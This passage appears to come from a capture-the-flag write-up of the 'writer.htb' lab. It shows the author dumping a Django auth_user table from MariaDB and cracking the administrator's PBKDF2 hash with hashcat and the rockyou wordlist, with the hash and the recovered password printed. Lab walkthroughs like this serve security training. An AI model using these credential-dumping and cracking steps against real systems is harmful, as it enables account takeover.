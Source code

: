 ```bash
www-data@writer:/home/kyle$ mysql -u djangouser -p
	MariaDB [dev]> show databases;
	+--------------------+
	| Database           |
	+--------------------+
	| dev                |
	| information_schema |
	+--------------------+
	2 rows in set (0.000 sec)

	MariaDB [dev]> show tables;
	+----------------------------+
	| Tables_in_dev              |
	+----------------------------+
	| auth_group                 |
	| auth_group_permissions     |
	| auth_permission            |
	| auth_user                  |
	| auth_user_groups           |
	| auth_user_user_permissions |
	| django_admin_log           |
	| django_content_type        |
	| django_migrations          |
	| django_session             |
	+----------------------------+
	10 rows in set (0.000 sec)

	MariaDB [dev]> SELECT * from auth_user;
	+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
	| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
	+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
	|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
	+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
	1 row in set (0.001 sec)
```

Looking through hashcat example hashes it seems to be a Django (m10000) hash, which makes sense.

```bash
void@void:~/Documents$ hashcat -a0 -m10000 hash.txt /usr/share/wordlists/rockyou.txt
  ..
  pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio

  Session..........: hashcat
  Status...........: Cracked
  Hash.Type........: Django (PBKDF2-SHA256)
  Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
```
